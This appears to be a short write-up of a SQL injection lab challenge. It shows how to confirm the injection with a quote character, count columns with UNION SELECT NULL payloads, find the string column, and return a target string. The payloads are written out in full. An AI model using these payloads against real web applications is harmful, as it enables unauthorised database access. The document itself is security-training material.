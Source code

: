 Pressing one of the categories then appending `'` to the url will cause an `Internal Server Error` so we are sure now there's an sqli.

First we need to find the number of columns in the vulnerable query.

Starting with just one null and appending one every time there's an error we can just do that.
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--       <-- will work
```

Then by testing one by one we can determine which column contains string. 

```
' UNION SELECT 's',NULL,NULL--
' UNION SELECT NULL,'s',NULL--
' UNION SELECT NULL,NULL,'s'--
```

To complete the challenge we need to return a particular string.

```
' UNION SELECT NULL,'nCHaPE',NULL--
```
